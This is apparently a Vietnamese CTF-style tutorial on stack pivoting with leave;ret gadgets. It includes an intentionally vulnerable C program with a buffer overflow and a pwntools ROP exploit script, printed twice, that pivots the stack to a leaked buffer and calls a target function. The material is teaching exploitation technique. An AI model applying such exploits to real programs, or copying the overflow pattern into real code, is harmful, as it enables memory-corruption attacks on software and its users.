

# Stack pivot

- là một kỹ thuật chúng ta sử dụng khi thiếu dung lượng trên `stack`.
- ví dụ: ta có 1 biến `buff[60] và 1 hàm gets(buff , 80)` và để có thể get shell ta sẽ phải `ret ==> pop rdi + /bin/sh ==> system` chẳng hạn thì tổng dung lượng ta cần là 24 byte , nhưng bạn có thể thấy từ `$rsp` tới `$rbp` đã là 68 byte rồi vậy là sẽ không đủ để chứa hết các gadget trên , vì thế ta cần phải sử dụng `stack pivot` để chuyển `stack` của chúng ta sang 1 vùng địa chỉ mà ta được cho sẵn hay leak được có thể ghi vào vùng địa chỉ đó và ta sẽ exploit y như `ROP` :Đ .

## Các kiểu Stack pivot

### step 1: pop rsp gadget

- là kiểu ít được sử dụng nhất và ít được ra nhất (cách này cũng khá là phức tạp)

```
pop <reg>                <=== return pointer
<reg value>
xchg <rag>, rsp
```

- cách này khá chua mình sẽ ko giải thích gì thêm , nếu bạn mún tìm hiểu thêm thì xem trang này nhóe :>>> [stack_pivot](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting)

### step 2: leave;ret gadget

- cách này ez và dễ hiểu hơn rất nhiều , ta chỉ cần sử dụng `gadget leave;ret` là ta đã sử dụng được `stack pivot` :))) , nghe ảo không. Đơn giản `leave;ret` nó hoạt động giống với cụm này :
  ```
  mov rsp, rbp
  pop rbp
  ```
- Và khi ta chạy vào thực tế thì nó có lẽ sẽ giống như cụm này hơn:
  ```
  mov rsp, rbp
  pop rbp
  pop rip
  ```
- Để có thể mà hiểu hơn cách hoạt động của `leave;ret`  thì ta sẽ nhập những `gadget` mà ta cần ở đầu `stack` nhưng ***LƯU Ý hãy padding thừa 8 byte đầu  = 0x0 cũng được , 1 tí nữa sẽ có 1 chall test bạn có lẽ sẽ hiểu hơn về lưu ý này.***  Khi thực hiện `leave;ret` nó sẽ nhảy đến địa chỉ có thể ghi được bằng cách padding địa chỉ đó vào `rbp` và nó sẽ tiếp tục lưu lại những gì ở `rsp` vào `rbp` tại 1 địa chỉ khác và thực hiện những `gadget` ta đã padding ở `rsp` và chạy như 1 bài `ROP` bình thường :Đ (nghe có vẻ hơi phức tạp nhỉ , cùng thực hiện 1 chall nhỏ sau để dễ hiểu hơn nha).

## Chall thử:

```
// gcc source.c -o vuln -no-pie
#include <stdio.h>

void winner(int a, int b) {
    if(a == 0xdeadbeef && b == 0xdeadc0de) {
        puts("Great job!");
        return;
    }
    puts("Whelp, almost...?");
}

void vuln() {
    char buffer[0x60];
    printf("Try pivoting to: %p\n", buffer);
    fgets(buffer, 0x80, stdin);
}

int main() {
    vuln();
    return 0;
}
```

- source cơ bản sẽ như này , chương trình cho ta sẵn 1 địa chỉ để pivot , và phải ow được **a = 0xdeadbeef && b = 0xdeadbeef**  với ***a là rdi và b là rsi***.

  

  

  ### Source:


  ```
  from pwn import *

  elf = context.binary = ELF('./vuln')

  p = process()

  gdb.attach(p, gdbscript='''
                  b*0x00000000004011d0

                  c
                  ''')

  input()


  p.recvuntil('to: ')
  buffer = int(p.recvline(), 16)
  log.success(f'Buffer: {hex(buffer)}')

  LEAVE_RET = 0x401193
  POP_RDI = 0x40114a
  POP_RSI_R15 = 0x40114c

  payload = flat(
      0x0,               # rbp
      POP_RDI,
      0xdeadbeef,
      POP_RSI_R15,
      0xdeadc0de,
      0x0,
      elf.sym['winner']
  )

  payload = payload.ljust(96, b'A')     # pad to 96 (just get to RBP)

  payload += flat(
      buffer,
      LEAVE_RET
  )

  pause()
  p.sendline(payload)
  print(p.recvline())
  ```
- Source cơ bản sẽ như sau , mình sẽ giải thích cơ bản trước khi debug đằng sau hàm `fgets` để xem cách hoạt động cả source sau. Đầu tiên là padding thừa 8byte đầu để phục vụ việc `stack pivot` 1 tí debug bạn sẽ biết sau nhóe , tiếp theo là ta nhập các `gadget` như bình thường , cuối đấy là địa chỉ hàm `win` để có thể tạo shell ,sau đấy ta `ljust` để ta có thể đến được `rbp` , cuối cùng ta nhập vào `rbp` địa chỉ `pivoting` đề cho và `rip` sẽ là `leave;ret`.
- Cùng debug để xem cách mà source này hoạt động cũng như cách `leave;ret` thực thi.

  
- đầu tiên là ret đến `leave;ret` , sau đấy nó sẽ pop rbp bằng địa chỉ đã cho , rbp sẽ ngay lực tức nhảy đến địa chỉ đó và những `gadget` ta nhập ở rsp cũng đã được chuyển đến `rbp.`

  
- Và bạn đã thấy nó sẽ ret đến pop rdi và thực hiện những `gadget` mà ta nhập. Có lẽ bạn sẽ hỏi nếu như ta không nhập thừa 8 byte đầu thì nó sẽ như thế nào đúng hong , cùng xem ảnh dưới chính xác nó sẽ xảy ra như thế này:

  
- Bạn thấy đấy sau khi `leave;ret` thì chương trình thực hiện ngay dòng kẹp giá trị `0xdeadbeef` vào rdi mà không phải là pop rdi là bởi vì khi mà ta `stack pivot` sang 1 địa chỉ khác đồng nghĩa với việc ta phải nhập lại giá trị cho `rbp` , bởi vì thế mà tớ đã ***LƯU Ý cho các bạn về việc nên padding dư 8 byte đầu là vì thế , phục vụ cho việc sau khi `stack pivot` sang 1 địa chỉ khác ta có thể bảo toàn các `gadget` đã nhập , đảm bảo việc `exploit` chương trình được diễn ra trơn tru hơn***.
- Tớ chỉ có thể đưa ra 1 ví dụ tiêu biểu nhất về cách sử dụng `leave;ret` thui nên các bạn mún tìm hiểu thêm về cách sử dụng `pop rsp` thì và link mà tớ gửi nhóe :>>> .

  ## source hoàn chỉnh :


  ```
  from pwn import *

  elf = context.binary = ELF('./vuln')
  p = process()

  gdb.attach(p, gdbscript='''
                  b*0x00000000004011d0
               
                  c
                  ''')

  input()


  p.recvuntil('to: ')
  buffer = int(p.recvline(), 16)
  log.success(f'Buffer: {hex(buffer)}')

  LEAVE_RET = 0x401193
  POP_RDI = 0x40114a
  POP_RSI_R15 = 0x40114c

  payload = flat(
      0x0,               # rbp
      POP_RDI,
      0xdeadbeef,
      POP_RSI_R15,
      0xdeadc0de,
      0x0,
      elf.sym['winner']
  )

  payload = payload.ljust(96, b'A')     # pad to 96 (just get to RBP)

  payload += flat(
      buffer,
      LEAVE_RET
  )

  pause()
  p.sendline(payload)
  print(p.recvline())
  ```
